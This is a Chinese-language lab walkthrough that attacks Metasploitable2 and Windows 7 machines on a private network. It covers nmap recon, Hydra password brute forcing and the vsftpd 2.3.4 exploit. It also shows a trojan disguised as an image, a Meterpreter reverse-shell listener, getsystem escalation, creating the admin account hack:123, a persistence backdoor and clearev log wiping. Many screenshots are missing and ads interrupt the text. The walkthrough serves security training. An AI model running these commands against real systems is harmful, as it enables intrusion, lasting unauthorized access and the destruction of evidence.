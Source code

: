  声明: 安全君呀 公众号文章中的技术只做研究之用,禁止用来从事非法用途,如有使用文章中的技术从事非法活动,一切后果由使用者自负,与本公众号无关。

文章声明：本篇文章内容部分选取网络，如有侵权，请告知删除。


一、信息收集
主机发现
目前我们知道的唯一信息是攻击机器与目标机器在同一局域网中，因此需要进行前期的信息收集，可使用kali中的arp-scan工具与nmap工具扫描局域网中存活的主机与服务。
（1）查看kali所处网段信息

ip a
图片

（2）扫描网段信息

已知kali所处网段为192.168.72.129/24网段，故需对该网段进行扫描，使用：

arp-scan -l
图片

命令即可获取该网段所有存活ip信息，不包含kali本身。

扫到4个IP,其中192.168.72.2为物理机虚拟网卡地址，192.168.72.128和192.168.72.130为目标机地址。

广告
blur Imageblur ImageMain Image
微信群曝光后我杀疯了
家庭 30集

去观看
操作系统识别
（3）使用nmap对两个主机IP进行版本侦测：

nmap -sV 192.168.72.128
nmap -sV 192.168.72.130
图片

图片

端口扫描，服务版本识别
（4）OS侦测

nmap -O 192.168.72.128
nmap -O 192.168.72.130
图片

图片

二、口令爆破
1．尝试爆破服务的登录口令（比如ssh、ftp、mysql）

通过上面的信息收集，发现metasploitable2目标主机存在ftp、ssh、mysql服务，我们可以尝试对这些服务进行口令爆破登录。

首先用crunch生成用户和密码字典文件：

图片

图片

Hydra （九头蛇）破解 FTP账号和密码：

图片

Hydra 破解MySQL账号和密码：

图片

利用 metasploit （MSF）爆破ftp账号密码

图片

三、漏洞利用
1. 对靶机metasploitable2的ftp服务存在的漏洞进行利用

上面对靶机metasploitable2进行端口扫描，发现开放21端口并且安装 vsftpd 服务器软件，版本 2.3.4，启动MSF终端，搜索 vsftpd 的相关工具和攻击载荷，显示 vsftpdv2.3.4版本的漏洞利用模块，启用漏洞利用模块，开始渗透。

图片

图片

图片

图片

查看ip为目标主机，渗透成功：

图片
2. 在目标机上创建拥有管理员权限的普通用户，并设置密码

图片

# 将新用户添加到 'sudo' 组以赋予管理员权限
sudo usermod -aG sudo newuser
四、社会工程学
木马生成
图片

图片

建立反弹链接
诱导用户在目标机运行木马，在攻击机监听，成功建立反弹链接。

（两台目标机都要运行木马建立链接）

win7：木马与图片压缩，诱导用户点击图片，运行木马。

图片

图片

metasploitable2：

msfconsole
use exploit/multi/handler # 设置 exploit
show options # 查看配置信息
set payload linux/x64/meterpreter/reverse_tcp
show options # 查看配置信息

set lhost 192.168.72.129 设置本地IP
set lport 2223

show options
run # 进行监听
1．对windows目标机进行提权操作（提示：bypassuac）

进程迁移：

图片

图片

权限提升：

图片

图片

图片

getsystem
getuid
图片

创建一个新账号
run post/windows/gather/enum_logged_on_users 
# 先查看目标主机有哪些用户
图片

接下来，在目标系统中创建一个新的用户账号：

run getgui -u hack -p 123
这个命令会创建用户，并把此用户添加到 Administrators 组中，这样该用户就拥有远程桌面的权限。

图片

成功创建了用户，但是添加到 administrators 组中失败了。运行：shell，进行cmd窗口手动将该用户添加到 administrators 组中。

shell
net localgroup administrators hack /add
图片

广告
blur Imageblur ImageMain Image
不灵不灵
都市/爱情 78集

去观看
启用远程桌面
首先在shell中：

netstat -ano # 查看 3389 端口开放状态，目标机器中开放3389远程桌面端口
exit # 退出系统 shell
回到 meterpreter 重新启动一个端口，输入：

rdesktop 192.168.72.128 
# 选择其他用户，输入用户:密码（hack:123）
图片

生成持续性后门
因为 meterpreter 是基于内存 DLL 建立的连接，所以，只要目标主机关机，连接就会断。总不可能每次想连接的时候，每次都去攻击，然后再利用 meterpreter 建立连接。

所以，得在目标主机系统内留下一个持续性的后门，只要目标主机开机了，就可以连接到该主机。

在 shell 中：

meterpreter > run persistence -x -i 5 -p 8888 -r 192.168.72.128

# 反弹时间间隔为 5s，自动连接该ip的8888端口，缺点是容易被杀毒软件查杀
图片

然后它就在目标机新建了这个文件：c:\Windows\TEMP\icQdpTu.vbs，并把该服务加入了注册表中，只要开机就会启动，这样这个后门每次开机就都能启动了，然后相连就只需要监听相应的端口就行了。


清理入侵痕迹并验证
clearev
# 然后到目标机器上通过事件查看器可以看到所有的应用程序事件
# 安全事件和系统事件都被清空了

